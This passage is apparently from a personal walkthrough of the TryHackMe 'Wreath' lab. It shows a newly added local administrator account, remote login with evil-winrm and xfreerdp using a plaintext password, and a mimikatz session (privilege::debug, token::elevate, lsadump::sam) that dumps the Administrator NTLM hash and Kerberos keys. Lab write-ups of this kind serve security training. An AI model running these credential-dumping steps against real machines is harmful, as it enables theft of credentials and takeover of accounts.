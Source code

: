 ```
Password expires             Never
Password changeable          13/09/2022 07:47:15
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script                 
User profile                 
Home directory               
Last logon                   Never

Logon hours allowed          All

Local Group Memberships      *Administrators       *Remote Management Use
                             *Users                
Global Group memberships     *None                 
The command completed successfully.
```

- we can now login to the machine with evil win-rm
- upload mimikatz via evil win-rm `upload tools/Post-Exploitation/mimikatz.exe` (i couldnt get this to run properly on evil-winRM so logged in with xfreerdp to start mimikatz as administrator, also sharing the tools directory)
- ` xfreerdp /v:10.200.101.150 /u:0xskar /p:p@ssw0rd +clipboard /dynamic-resolution /drive:/home/oskar/Documents/TryHackMe/Wreath,share`
- then when minikatz is started as admin ``privilege::debug`` to check priv 20, then `token::elevate`, `log c:\windows\temp\mimikatz.log`, and dump passwords `lsadump::sam`


```
mimikatz # log c:\windows\temp\minikatz.log
Using 'c:\windows\temp\minikatz.log' for logfile : OK

mimikatz # lsadump::sam
Domain : GIT-SERV
SysKey : 0841f6354f4b96d21b99345d07b66571
Local SID : S-1-5-21-3335744492-1614955177-2693036043

SAMKey : f4a3c96f8149df966517ec3554632cf4

RID  : 000001f4 (500)
User : Administrator
  Hash NTLM: 37db630168e5f82aafa8461e05c6bbd1

Supplemental Credentials:
* Primary:NTLM-Strong-NTOWF *
    Random Value : 68b1608793104cca229de9f1dfb6fbae

* Primary:Kerberos-Newer-Keys *
    Default Salt : WIN-1696O63F791Administrator
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : 8f7590c29ffc78998884823b1abbc05e6102a6e86a3ada9040e4f3dcb1a02955
      aes128_hmac       (4096) : 503dd1f25a0baa75791854a6cfbcd402
      des_cbc_md5       (4096) : e3915234101c6b75

* Packages *
    NTLM-Strong-NTOWF

* Primary:Kerberos *
    Default Salt : WIN-1696O63F791Administrator
    Credentials
      des_cbc_md5       : e3915234101c6b75

```